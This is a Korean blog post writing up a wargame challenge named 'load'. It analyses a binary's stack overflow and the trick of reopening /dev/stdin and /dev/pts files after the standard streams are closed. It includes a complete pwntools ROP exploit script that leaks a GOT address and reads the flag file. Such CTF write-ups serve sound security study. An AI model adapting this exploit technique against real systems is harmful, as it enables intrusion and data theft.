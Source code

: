 ```yaml
---
layout: post
title: "load"
comments : true
category : War Game
---
```


# 문제
***

attackme 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
FORTIFY:  Enabled
```

file 명령어의 결과는 다음과 같다.
```
attackme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a0620e5b122fd043e5a40e181f3f3adf29e6f4c1, stripped
```

바이너리 코드

__main()__ 
```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
    char v4; // [rbp-30h]
    ...
    sub_400986(byte_601040,0x80);   // fgets(byte_601040,0x80,stdin); "\x0a" NULL로 replace
    ...
    _printf_chk(1,"Input offset: ");
    v6 = sub_4009DB();  // fgets(&nptr,0x20,stdin); return atoi(&nptr);
    _printf_chk(1,"Input size: ");
    v5 = sub_4009DB();
    sub_4008FD(&v4,byte_601040,v6,v5);
    sub_4008D8();   // close(0); close(1); close(2)
}
```

__sub_4008FD()__
```
int __fastcall sub_4008FD(void *a1, const char *a2, __off_t a3, __int64 a4)
{
    offset = a3;
    nbytes = a4;
    fd = open(a1,0);
    if (fd == -1)
        return;
    lseek(fd,offset,0);
    if(read(fd,a1,nbytes) > 0 )
        puts("Load file complete!");
    return close(fd);
}
```

__sub_4008FD()__ 함수에서 nbytes 값을 내 마음대로 설정할 수 있기 때문에 bof를 통해서 main 함수의 ret를 overwrite할 수 있다.
하지만 __sub_4008D8()__ 함수에서 stdin, stdout, stderr 를 모두 close() 하기 때문에 입출력 파일을 다시 open 해줘야 한다. <br/>

심볼릭 링크 관계 : /dev/stdin -> /proc/self/fd/0 -> /dev/pts/숫자 <br/>

즉, 프로세스의 입력은 /dev/pts/숫자 파일을 통해서 처리된다. 따라서 /dev/stdin, /proc/self/fd/0, /dev/pts/숫자 중 하나의 파일을 open 하고 해당 파일 디스크립터를 read 함수의 인자로 넣어주면 ```read(0,buf,size)``` 와 동일한 동작을 수행한다.  <br/>

/proc/self/fd/1 과 /proc/self/fd/2도 /proc/self/fd/0과 동일한 /dev/pts/숫자 파일에 심볼릭 링크되어 있다.  <br/><br/>
그런데 pwntools의 process를 이용하면 /proc/self/fd/0 가 pipe에 심볼릭 링크되어 있다. (/proc/self/fd/1, /proc/self/fd/2는 /dev/pts/숫자 파일에 심볼릭 링크 걸려있음)  <br/><br/>즉, process 함수로 생성된 객체는 프로세스와 pipe를 통해서 입력을 준다.  <br/><br/>이는 process의 stdin default 옵션이 pipe여서 그렇다. (stdin 옵션을 PTY로 바꾸면 /dev/pts 를 통해서 입력을 준다.)   <br/><br/> 그리고 daemon으로 돌고 있는 경우 /proc/self/fd/0 ~ 2 은 socket에 링크되어 있다.   <br/>

나는 그냥 flag만 읽는 것으로 payload를 구성했다. (사실 뭔가 원래 문제에서는 /proc/self/fd/0 ~1의 심볼릭 링크에 대해서 따로 처리를 해준 것 같다. 그게 아니면 /dev/pts/숫자를 open 한다고 해서 출력 결과가 나한테 올 것 같지가 않다. remote 환경에서는 1번이 socket에 링크되어 있으므로... => 아마도 socket이 /dev/pts/숫자에 링크되어 있는듯...)

## exploit 방법
1. /dev/stdin 파일을 open하고 read 함으로써 bof를 발생시킨다. 
2. ROPgadget을 구성 
   - /dev/pts/숫자 파일을 두 번 open한다.
   - 프로세스에 해당하는 /dev/pts/숫자를 open했으면 문자열 출력하도록 한다. (잘못된 파일을 open하면 출력되지 않고, 이 경우에는 process를 close 한다.)
   - flag 파일을 open하고 bss_section에 flag 파일을 read한다. 마지막으로 flag 내용이 쓰여진 bss_section을 출력한다.
3. 프로세스에 해당하는 /dev/pts/숫자를 찾을 때까지 1 -2를 반복한다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path = "/home/sungyun/round3/load/attackme"

puts_plt=0x4006c0
puts_got=0x600fa0
prdi=0x0000000000400a73
prsip=0x0000000000400a71
open_plt=0x0000000000400710
bss_sec=0x6011b0
pts_path=0x601040+0x10
read_plt=0x4006e8

num=0

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

while(1):

	p=process(file_path)
	#num=raw_input()
	#num=num[:-1]
	p.recvuntil("name: ")
	file_name = "/dev/pts/"+str(num)
	#file_name="/dev/pts/"+num
	p.sendline("/dev/stdin"+"\x00"+"AAAAA"+file_name+"\x00"+"flag"+"\x00")
	p.recvuntil("offset: ")
	p.sendline("0")
	p.recvuntil("size: ")

	pay="A"*0x30
	pay+=p64(pts_path+0x30+8)
	pay+=p64(prdi)
	pay+=p64(pts_path)
	pay+=p64(prsip)
	pay+=p64(2)
	pay+="A"*8
	pay+=p64(open_plt)	# open fd 0
	pay+=p64(prdi)
	pay+=p64(pts_path)
	pay+=p64(prsip)
	pay+=p64(2)
	pay+="A"*8
	pay+=p64(open_plt)	# open fd 1

	pay+=p64(prdi)		#puts_got leak
	pay+=p64(puts_got)
	pay+=p64(puts_plt)

	pay+=p64(prdi)
	pay+=p64(pts_path+10+len(str(num)))
	pay+=p64(prsip)
	pay+=p64(2)
	pay+="A"*8
	pay+=p64(open_plt)	# open flag

	pay+=p64(prdi)
	pay+=p64(2)
	pay+=p64(prsip)
	pay+=p64(bss_sec)
	pay+="A"*8
	pay+=p64(read_plt)	# read flag

	pay+=p64(prdi)
	pay+=p64(bss_sec)
	pay+=p64(puts_plt)	# puts flag

        p.sendline(str(len(pay)))
        time.sleep(0.1)

	p.send(pay)
	#p.recvuntil("complete!\n",timeout=0.5)		# 처음에 open하는 파일을 /dev/pts/숫자로 한 경우 잘못된 숫자를 넣으면 attackme 프로세스가 read에서 계속 머물러 있기 때문에 timeout을 해줘야한다.
	p.recvuntil("complete!\n")  # /dev/stdin을 open한 경우
	try:
		puts=p.recvline()
		puts=puts[::-1]
		puts=puts[1:]
		puts=int(puts.encode('hex'),16)
		break
	except:
		p.close()
	num = num + 1

print p.recvline()
```

# 알게 된 것
***
- /dev/tty : 현재 콘솔 장치, 현재 콘솔 세션을 의미 (사용자의 터미널을 의미)
- /dev/pts : SSH 접속 콘솔 장치 (원격 터미널 환경)
- /usr/bin/tty : 터미널 확인 리눅스 명령어 (표준 입력에 접속된 터미널 장치 파일명 출력)
